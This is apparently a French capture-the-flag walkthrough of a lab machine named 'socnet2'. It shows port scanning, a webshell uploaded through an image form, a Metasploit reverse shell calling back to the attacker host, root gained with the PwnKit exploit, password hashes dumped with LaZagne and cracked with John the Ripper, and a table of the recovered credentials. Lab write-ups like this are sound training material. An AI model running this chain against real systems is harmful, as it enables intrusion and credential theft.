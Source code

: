 1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.138
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.138...100%
[+] Scan Nmap 192.168.56.138...100%
 
[+] 80/tcp open
[+] 8000/tcp open
[+] 22/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.138-tcp.html     |
==========================================================
```

&nbsp;

Le serveur hébergeait un genre de réseau sociaux , je me suis inscrit , et j’ai pu constater dans la parti post que l’on pouvais uploads une image , j’ai mis une `webshell`

**<span style="color: #dddddd;">![Capture du 2025-03-06 19-39-30.png](../../_resources/Capture%20du%202025-03-06%2019-39-30.png)</span>**

&nbsp;

**<span style="color: #dddddd;">💥</span> Metasploit - webshell**

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set verbose true
verbose => true
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 192.168.56.104:4444 
[*] Sending stage (40004 bytes) to 192.168.56.138
[*] Meterpreter session 1 opened (192.168.56.104:4444 -> 192.168.56.138:60184) at 2025-03-06 19:29:05 +0100

(Meterpreter 1)(/var/www/html/data/images/posts) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Elevation de privilege

```
www-data@socnet2:/tmp$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

&nbsp;

**<span style="color: #dddddd;"><span style="color: #dddddd;">💀</span> Exploit Pwnkit</span>**

<span style="color: #dddddd;">Test de l'exploit</span>

```
www-data@socnet2:/tmp$ ./PwnKit  
./PwnKit
root@socnet2:/tmp#
```

&nbsp;

**<span style="color: #dddddd;">👾</span>  Lazagne**

Voyons si lazagne trouve des choses intéressante 

```
root@socnet2:/tmp/LaZagne-2.4.6/Linux# python laZagne.py all
python laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


------------------- Grub passwords -----------------

[+] Hash found !!!
Hash: $1$gLhU0/$aW78kHK1QfV3P2b2znUoe/

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: socnet
Hash: $6$dF89FbLlk3dIJeo4$iEeus5kPteNqivMT5Bt7o3rNtIv0oWQug63syktfj9zwYoeP5tvfc1ve9GsfjyOFz5sRxEIjoueHKtTJTyxS9/:17833:0:99999:7:::


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 2.2199819088
```

&nbsp;

🧨**JohnTheRipper**

Crack des hash 

```
┌──[m0rph3u5@parrot]─[~/Desktop]
└──╼ $john socnet2 --wordlist=Desktop/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
andrew1995	 (socnet)
topsecret        (?)
1g 0:00:02:19 DONE (2025-03-05 20:28) 0.007178g/s 1857p/s 1857c/s 1857C/s thebest15..teladan
Use the "--show" option to display all of the cracked passwords reliably

┌──[parrot@parrot]─[~/Desktop]
└──╼ $john socnet2 --show
socnet:andrew1995:18503:0:99999:7:::
?:topsecret
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| socnet | andrew1995 |
| ?   | topsecret |

&nbsp;